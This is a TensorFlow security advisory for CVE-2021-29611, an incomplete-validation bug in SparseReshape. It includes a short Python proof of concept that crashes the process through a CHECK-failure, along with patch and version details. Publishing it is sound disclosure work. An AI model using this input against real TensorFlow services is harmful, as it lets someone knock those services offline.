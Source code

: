 ## TFSA-2021-098: Incomplete validation in `SparseReshape`

### CVE Number
CVE-2021-29611

### Impact
Incomplete validation in `SparseReshape` results in a denial of service based on
a `CHECK`-failure.

```python
import tensorflow as tf

input_indices = tf.constant(41, shape=[1, 1], dtype=tf.int64)
input_shape = tf.zeros([11], dtype=tf.int64)
new_shape = tf.zeros([1], dtype=tf.int64)

tf.raw_ops.SparseReshape(input_indices=input_indices,
    input_shape=input_shape,
    new_shape=new_shape)
```

The
[implementation](https://github.com/tensorflow/tensorflow/blob/e87b51ce05c3eb172065a6ea5f48415854223285/tensorflow/core/kernels/sparse_reshape_op.cc#L40)
has no validation that the input arguments specify a valid sparse tensor.

### Patches
We have patched the issue in GitHub commit
[1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6](https://github.com/tensorflow/tensorflow/commit/1d04d7d93f4ed3854abf75d6b712d72c3f70d6b6).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2 and TensorFlow 2.3.3, as these are the only affected
versions.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
